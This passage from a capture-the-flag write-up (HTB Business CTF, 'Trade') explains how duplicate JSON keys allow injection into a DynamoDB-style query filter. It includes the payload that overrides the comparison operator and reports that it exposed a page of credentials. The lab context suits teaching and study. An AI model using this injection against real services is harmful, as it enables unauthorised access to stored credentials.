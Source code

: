 ```
{"servername": {"ComparisonOperator": "EQ","AttributeValueList": [{"S": "MY PAYLOAD"}]}}
```

I tested the Python JSON parser and saw that if an attribute is repeated, it keeps only the last value.

```python
>>> import json
>>> value = '{"servername": {"ComparisonOperator": "EQ","AttributeValueList": [{"S": "*"}], "ComparisonOperator": "GT", "AttributeValueList": [{"S": "*"}]}}'
>>> parsed = json.loads(value)
>>> print(parsed)
{'servername': {'ComparisonOperator': 'GT', 'AttributeValueList': [{'S': '*'}]}}
```

To produce the previous JSON, I sent this payload.

```
*"}], "ComparisonOperator": "GT", "AttributeValueList": [{"S": "*
```

It worked. I got a page with multiple credentials listed. 

![Injection](/assets/images/2022/07/HTBBusinessCTF/Trade/Injection.png "Injection")
